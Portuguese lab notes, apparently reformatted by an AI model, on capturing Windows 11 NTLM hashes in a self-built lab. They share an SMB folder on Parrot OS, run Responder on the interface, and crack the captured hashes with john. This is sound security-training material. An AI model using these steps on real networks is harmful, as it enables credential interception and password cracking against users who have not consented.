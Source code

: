 Claro, vou atualizar e organizar o texto com as informações fornecidas:

---

### Imagens e Configurações de Instâncias

- **win11 c5large 65gb**
- **Parrot OS c5 65gb**

### Parrot OS

#### Comando para Partilhar Pasta via SMB

Para partilhar uma pasta no Parrot OS, execute o seguinte comando:

```bash
sudo net usershare add sharefolder /home/parrot/sharefolder "A secret folder shared via SMB" everyone:F guest_ok=y
```
Executar o responder com a interface no "ip a" 
```bash
sudo responder -I ens5`.
```

#### Acessar Pasta Compartilhada no Windows 11

1. No Windows 11, pressione `Win + R` para abrir o Executar.
2. Digite `\\[IP_privado_do_Parrot]` e pressione Enter.

> **Nota:** Ao tentar colocar a senha, pode ocorrer um erro e aparecerá o hash no Parrot OS.

#### Logs do Responder no Parrot OS

Os logs do Responder são armazenados no seguinte diretório:

```plaintext
/usr/share/responder/logs
```

Para processar os hashes capturados, utilize o `john`:

```bash
john SMB-xxxxxxxx- TAB
```

### Troubleshooting

Se precisar resolver problemas relacionados ao SMB, use os seguintes comandos:

1. Verificar quais processos estão utilizando a porta 445:
    ```bash
    sudo lsof -i :445
    ```

2. Parar o serviço `smbd`:
    ```bash
    sudo systemctl stop smbd
    ```
